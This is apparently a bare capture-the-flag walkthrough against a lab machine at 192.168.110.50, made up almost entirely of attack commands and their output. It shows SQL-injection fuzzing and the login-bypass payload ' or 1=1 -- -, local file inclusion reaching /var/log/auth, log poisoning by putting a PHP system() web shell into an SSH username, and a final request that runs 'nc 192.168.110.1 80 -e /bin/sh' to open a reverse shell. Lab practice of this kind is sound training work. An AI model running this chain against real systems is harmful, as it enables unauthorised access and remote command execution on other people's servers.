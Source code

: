 ===============================================================
2021/09/17 14:23:41 Finished
===============================================================


```console


└─$ wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d "username=FUZZ&password=password"  --hc 200 http://192.168.110.50/atlantis.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.110.50/atlantis.php
Total requests: 125

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000039:   302        43 L     84 W       1718 Ch     "' or 1=1 or ''='"
000000029:   302        43 L     84 W       1718 Ch     "' or 0=0 #"
000000121:   302        43 L     84 W       1718 Ch     "x' or 1=1 or 'x'='y"
000000119:   302        43 L     84 W       1718 Ch     "' or 1=1 or ''='"

```

```console

' or 1=1 -- -

http://192.168.110.50/gods/

[ ] hades.log
[ ] poseidon.log
[ ] zeus.log

http://192.168.110.50/sea.php?file=../gods/hades
http://192.168.110.50/sea.php?file=../../../../var/www/html/gods/hades
http://192.168.110.50/sea.php?file=../../../../var/log/auth

└─$ ssh '<?php echo "oscp"; ?>'@192.168.110.50         
└─$ ssh '<?php system($_GET["cmd"]); ?>'@192.168.110.50

http://192.168.110.50/sea.php?file=../../../../var/log/auth&cmd=id


```




```bash
# <input type="text" id="username" class="form-control" name="username" required autofocus>
# <input type="password" id="password" class="form-control" name="password" required>

curl -s -c cookie --data-urlencode "username=' or 1=1 -- -" --data-urlencode "password=password" http://192.168.110.50/atlantis.php
curl -s -b cookie http://192.168.110.50/sea.php?file=hades
curl -s -b cookie http://192.168.110.50/sea.php?file=../../../../var/www/html/gods/hades
curl -s -b cookie http://192.168.110.50/sea.php?file=../../../../var/log/auth
curl -G -s -b cookie --data-urlencode "file=../../../../var/log/auth" --data-urlencode "cmd=nc 192.168.110.1 80 -e /bin/sh" http://192.168.110.50/sea.php

```
